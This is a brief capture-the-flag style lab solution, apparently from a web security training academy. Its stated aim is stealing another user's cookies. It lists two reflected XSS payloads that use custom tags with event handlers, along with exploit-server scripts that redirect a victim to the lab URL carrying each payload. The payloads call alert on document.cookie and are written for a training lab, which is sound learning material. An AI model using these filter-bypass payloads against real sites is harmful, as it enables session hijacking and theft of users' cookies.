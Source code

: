 **Objective: Steal cookies from other user using exploit server  
<br/>Payload #1:** <xss oncontentvisibilityautostatechange=alert(document[cookie]) style=display:block;content-visibility:auto>  
<br/>**In exploit sever deliver:**  
<script>location='[https://0a88000b048b371680d6031a001600a7.web-security-academy.net/?search=<xss+oncontentvisibilityautostatechange%3Dalert(document[cookie])+style%3Ddisplay%3Ablock%3Bcontent-visibility%3Aauto>](https://0a88000b048b371680d6031a001600a7.web-security-academy.net/?search=%3Cxss+oncontentvisibilityautostatechange%3Dalert%28document%5Bcookie%5D%29+style%3Ddisplay%3Ablock%3Bcontent-visibility%3Aauto%3E)';</script>  
<br/><br/>**Payload #2:** <xss id=x onfocus=alert(document.cookie) tabindex=1>#x  
<br/>**In exploit server deliver:**  
<script>  
location = '[https://0a88000b048b371680d6031a001600a7.web-security-academy.net/?search=<xss+id%3Dx+onfocus%3Dalert(document.cookie) tabindex=1>#x](https://0a88000b048b371680d6031a001600a7.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x)';  
</script>

